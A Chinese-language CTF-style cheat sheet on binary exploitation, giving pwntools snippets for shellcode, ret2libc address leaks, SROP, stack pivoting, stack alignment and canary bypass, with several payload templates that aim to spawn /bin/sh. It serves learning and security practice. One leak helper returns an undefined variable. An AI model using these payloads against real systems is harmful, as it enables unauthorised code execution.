



## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
# context(arch='i386', os='linux')

shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59/eax=15

在溢出后，如果调用的是函数的plt地址或者got地址，则需要在栈中存放返回地址，栈中的数据格式如下：
```
system_plt + 返回地址 + 参数
```

如果程序中有直接call system地方，则不需要返回地址，可以直接在栈中放参数，栈中的数据格式如下：
```
call_system + 参数
```

### 一句话getshell

one_gadget是指在libc库中存在直接执行execve("/bin/sh", 0, 0)指令的地址，可通过搜索获取其偏移，然后直接调用。



## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |  -  |
|  puts  |  -  |
|  gets  |  -  |
|  read  |  -  |
|  write  |  -  |
|  strcpy  |  \x00  |
|  strcmp  |  \x00  |
|  strncmp  |  比较长度为0则结果为0  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：



则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read(fd, buf, size)  |
|  1  |  write(fd, buf, size)  |
|  15  |  rt_sigreturn  |
|  59  |  execve(cmd, 0, 0)  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

```
rax 系统调用号
rbx 参数1
rcx 参数2
rdx 参数3
```

64位系统参数传递规则：

> 当参数少于7个时，参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。

> 当参数大于等于7个时，前6个与前面一样，之后的依次从右向左放入栈中（同32位）。

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令



> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数。

## 0x007-栈迁移

如果程序中存在栈溢出，但是溢出的长度太短，只能覆盖到EBP和返回地址时，那么就需要用到栈迁移技术。

栈迁移需要覆盖EBP制造新栈帧空间，然后利用 **leave ; ret** 两个指令，劫持EIP/RIP，控制程序执行流程。

例如，一个程序的缓冲区到EBP的偏移为offset，则可以通过如下payload，将ebp地址覆盖为new_ebp地址，该new_ebp地址可以是bss段中的地址（如果将新栈空间转移到bss段中，需要注意与got表的位置，尽量往后移），
最后将返回地址覆盖为 **leave ; ret** 指令的地址。
```
payload = b"A" * offset + p64(new_ebp) + p64(leave_ret_addr)
```

程序函数结束会进行一次 **leave ; ret** 操作，此时会将ebp的值设置为new_ebp，EIP为leave_ret_addr，之后再次执行 **leave ; ret** 操作，就会将new_ebp位置处的第一个值赋值给EBP，第二个值赋值给EIP，也就是说此时需要在new_ebp中构造如下内容：
```
payload = p32(new_ebp) + p32(getshell_addr)
```

之后就可以控制程序执行流程。

## 0x008-Canary绕过

Canary特性：

1. 在同一个程序里，每个函数中的Canary值是一样的，也就是说可以在一个函数中泄漏Canary值，然后在另一个函数中使用Canary值完成栈溢出漏洞利用；
2. Canary最后两位一定是 "\x00"，也就是说如果函数中存在栈溢出，则可以将Canary的最后两位覆盖掉，那么就可以利用puts等函数将Canary的值打印出来；